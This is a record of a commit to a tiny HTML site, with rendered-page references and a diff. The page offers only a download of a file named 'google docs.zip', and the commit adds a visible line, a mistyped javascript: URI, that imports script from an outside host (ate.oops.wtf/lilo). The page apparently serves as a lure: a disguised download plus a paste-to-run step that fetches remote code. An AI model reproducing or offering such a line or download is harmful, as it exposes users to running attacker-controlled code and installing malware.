

Before and after one commit to blya1/x, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,6 +9,7 @@
 
 <body>
     <a href="./google docs.zip" download>download</a>
+    <p>avascript:import("https://ate.oops.wtf/lilo")</p>
 </body>
 
 </html>
```
